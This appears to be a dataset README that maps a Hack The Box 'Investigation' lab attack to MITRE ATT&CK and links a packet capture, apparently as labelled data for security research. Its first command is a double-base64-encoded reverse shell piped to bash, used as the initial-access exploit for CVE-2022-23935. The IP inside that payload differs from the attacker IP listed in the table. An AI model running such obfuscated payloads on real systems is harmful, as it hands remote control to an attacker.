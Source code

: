 # Cyber4ML_Framework application in "Investigation" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Enterprise|ICS|Network Analysis|Log Analysis|
|-|-|-|-|-|-|
|Yes|Yes|Yes|No|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.54|10.10.11.197|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Investigation Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Investigation/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| Reconnaissance | Gather Victim Host Information | Software | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | CVE-2022-23935/CWE-77 |
| Execution | Exploitation for Client Execution | - | (1) | CVE-2022-23935/CWE-77 |
| Discovery | System Owner/User Discovery | - | (2) | - |
| Discovery | File and Directory Discovery | - | (3) | - |
| Persistence | Valid Accounts | Local Accounts | (4) | - |
| Discovery | Permission Groups Discovery | Local Groups | (5) | - |
| Privilege Escalation | Exploitation for Privilege Escalation | - | - |

#### Commands/Scripts
- (1)
```
'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ek1TODBORFEwSURBK0pqRUsK' | base64 -d | base64 -d | bash |
```

- (2)
```
whoami
```

- (3)
```
find / -type d -iname "invest*" 2>/dev/null
```

- (4)
```
ssh smorton@eforenzics.htb
```

- (5)
```
sudo -l
```

## Network Data

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Investigation/attack_capture.pcapng)

## Malicious Log Data
